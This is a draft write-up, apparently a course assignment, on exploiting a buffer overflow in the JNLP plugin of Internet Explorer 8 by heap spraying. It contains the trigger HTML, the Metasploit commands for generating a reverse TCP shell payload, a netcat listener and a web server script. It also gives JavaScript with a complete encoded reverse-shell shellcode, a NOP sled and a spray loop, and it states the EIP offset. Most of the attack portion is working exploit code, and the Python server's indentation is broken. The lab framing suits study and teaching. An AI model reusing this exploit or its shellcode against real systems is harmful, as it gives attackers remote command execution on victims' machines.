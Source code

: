 # Exploiting a Buffer Overflow Vulnerability in the JNLP plugin within Internet Explorer 8 with using the Heap Spraying Technique
*This is still a draft*

JNLP (Java Network Launch Protocol) enables an application to be launched on a client desktop using resources that are hosted on a remote server. A specific version of JNLP for IE8 is vulnerable to a stack-based buffer overflow: when the plugin is invoked with a **launchjnlp** parameter, it will copy the value of the **docbase** parameter to a stack buffer using `sprintf`, but fails to check the length of the value. 

The vulnerability can be triggered by the following:
```html
<object type='application/x-java-applet'>
<param name='launchjnlp' value='1'>
<param name='docbase' value='AAAAAAAA....AAAAAA'>
</object>
```

## Goal
Input a sufficiently long string in the **docbase** value such that the register $eip gets ovewritten with an address known to contain our NOP sled and shellcode. Said shellcode establishes a reverse TCP connection to another machine.

## How it's done
To demonstrate this vulnerability, a simple web server is set up to listen on port 8080. This web server shows the contents of a specific directory in which the html file (containing the exploit) is located. The html file is clicked from the client and nothing appears to happen, but the truth is that the heap is sprayed with a shellcode! It is not until the client clicks on *Click Me* that at least one the shellcodes in the heap gets executed. This shellcode consists of several NOP operations and a reversed TCP connection to a chosen IP and port. The port used is *6666*, and to simplifly the assignment's grading, the chosen IP is 127.0.0.1, which means that the command prompt will be obtained in the client instead of in the attacker's machine (or Kali, in this case).

## Specifics
1. Two machines are used to demonstrate this vulnerability. A Windows 7 VM (with DEP disabled) acts as the client, and a Kali Linux VM acts as the web server.

2. A Windows shellcode is generated with Metasploit, which is a tool already installed in Kali Linux. The instructions in this shellcode create a reverse TCP connection from said Windows machine to a chosen IP and port. In other words, these instructions would spawn the victim's command prompt in the attacker's machine; but for practicality, the IP chosen as the attacker's IP does not belong to the attacker and it is the victim's machine, 127.0.0.1. Using the attacker's IP will make the demo realistic, but it will not make it easy to the grader of this assignment.

The shellcode is generated as follows:

`msfconsole`

`use payload/windows/shell_reverse_tcp`

`set LHOST 127.0.0.1`

`set LPORT 6666`

`generate -t js_le`

In the last command, **js_le** was used because a JavaScript shellcode is needed and the Windows machine that is targeted uses Little Endian (le).

3. To accept this reverse TCP connection in Windows, the following netcat command is needed:

`nc -l -p 6666`

**-l** specifies that nc should listen for an incoming connection, and **-p** specifies the source port.

4. Windows debugger, WinDBG, is helpful to visualize the stack and heap contents and gather information for the exploit.

5. The script that sets up a web server is provided, and it looks like this:

```python
#!/usr/bin/python
#
# Python Web Server
# Serves only static files
#
# by Saumil Shah

import sys
import BaseHTTPServer
from SimpleHTTPServer import SimpleHTTPRequestHandler

port = 8080

class HandlerClass(SimpleHTTPRequestHandler):
        # Disable DNS lookups
        def address_string(self):
                    return str(self.client_address[0])
                    ServerClass = BaseHTTPServer.HTTPServer
                    Protocol = "HTTP/1.0"
                    server_address = ('0.0.0.0', port)
                    HandlerClass.protocol_version = Protocol
                    httpd = ServerClass(server_address, HandlerClass)
    try:
        sa = httpd.socket.getsockname()
        print "Serving HTTP on", sa[0], "port", sa[1], "..."
        httpd.serve_forever()
    except KeyboardInterrupt:
        print 'Shutting down the web server'
        httpd.socket.close()
```

6. To use the heap spraying technique, a string that follows the pattern "NOP Sled + Shellcode" is created in JavaScript. This string is successfully sprayed in the heap to occupy hundreds of megabytes.

7. Once we know a specific address in the heap contains the beggining of the shellcode, that is, the NOP sled, we can concatenate that address at the end of the input to **docbase** to override $eip, and therefore, be able to jump to the shellcode.

## Steps

1. Test different length inputs for **docbase** to determine the number of bytes needed to override $eip. In this case, 396 will override $eip and nothing more. This means that 392 bytes are needed just before the 4 bytes address that we want to point $eip to. This address will be determined when the heap is sprayed.

2. To spray the heap with the shellcode, an array **a** is initialized and a function **heap_spray()** is specified to populate **a**

```javascript
<script> 
    var a = new Array();
    function heap_spray() {
   
        var shellcode = unescape("%ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u685d%u3233%u0000%u7768%u3273%u545f%u4c68%u2677%uff07%ub8d5%u0190%u0000%uc429%u5054%u2968%u6b80%uff00%u50d5%u5050%u4050%u4050%u6850%u0fea%ue0df%ud5ff%u6a97%u6805%u007f%u0100%u0268%u1a00%u890a%u6ae6%u5610%u6857%ua599%u6174%ud5ff%uc085%u0c74%u4eff%u7508%u68ec%ub5f0%u56a2%ud5ff%u6368%u646d%u8900%u57e3%u5757%uf631%u126a%u5659%ufde2%uc766%u2444%u013c%u8d01%u2444%uc610%u4400%u5054%u5656%u4656%u4e56%u5656%u5653%u7968%u3fcc%uff86%u89d5%u4ee0%u4656%u30ff%u0868%u1d87%uff60%ubbd5%ub5f0%u56a2%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5300%ud5ff")

        var nops = unescape("%u9090%u9090");

        while(nops.length <= 0x100000-shellcode.length){
            nops += nops;
        }

        nops += shellcode;

        for(i = 0; i < 200; i++) {
            a[i] = i + nops;
            a[i].substring(0,1); //This is only used to trick the memory allocator 
        }
    }
    .  
    .
    .
</script>
```
